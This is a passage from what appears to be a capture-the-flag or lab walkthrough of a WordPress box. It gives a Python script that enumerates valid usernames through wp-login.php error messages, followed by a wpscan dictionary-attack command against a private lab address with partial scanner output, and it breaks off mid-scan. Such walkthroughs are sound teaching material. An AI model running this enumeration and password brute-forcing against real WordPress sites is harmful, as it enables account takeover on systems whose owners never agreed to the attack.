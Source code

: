 I wrote a quick python script (with horrible performance) to find any existing
usernames.  
  
  

    
    
    import requests  
      
    open_file = open('fsociety_filtered.txt', 'r')  
    temp = open_file.read().splitlines()  
    count = 0  
    for username in temp:  
        payload = {'log': '{0}'.format(username), 'pwd': 'dummy'}  
        headers = {'Content-Type' : 'application/x-www-form-urlencoded'}  
        cookies = dict(wordpress_test_cookie='WP+Cookie+check')  
        r = requests.post("http://192.168.1.72/wp-login.php", data=payload, headers=headers, cookies=cookies)  
        if "Invalid username" not in r.text:  
            print username  
    

  
Running it revealed that the user **elliot** exists.  
  
I used wpscan to do a dictionary attack using the same list.  
  
  

    
    
    root@kali:~/Desktop# wpscan --url http://192.168.1.72 --wordlist=/root/Desktop/fsociety_filtered.txt --username elliot --threads 20  
    _______________________________________________________________  
            __          _______   _____                    
            \ \        / /  __ \ / ____|                   
             \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®  
              \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \   
               \  /\  /  | |     ____) | (__| (_| | | | |  
                \/  \/   |_|    |_____/ \___|\__,_|_| |_|  
      
            WordPress Security Scanner by the WPScan Team   
                           Version 2.9.2  
              Sponsored by Sucuri - https://sucuri.net  
       @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_  
    _______________________________________________________________  
      
    [+] URL: http://192.168.1.72/  
    [+] Started: Fri Jan 20 16:42:46 2017  
      
    [+] robots.txt available under: 'http://192.168.1.72/robots.txt'  
    [!] The WordPress 'http://192.168.1.72/readme.html' file exists exposing a version number  
    [+] Interesting header: SERVER: Apache  
    [+] Interesting header: X-FRAME-OPTIONS: SAMEORIGIN  
    [+] Interesting header: X-MOD-PAGESPEED: 1.9.32.3-4523  
    [+] XML-RPC Interface available under: http://192.168.1.72/xmlrpc.php  
      
    [+] WordPress version 4.3.7 (Released on 2017-01-11) identified from rss generator, rdf generator, atom generator, links opml  
      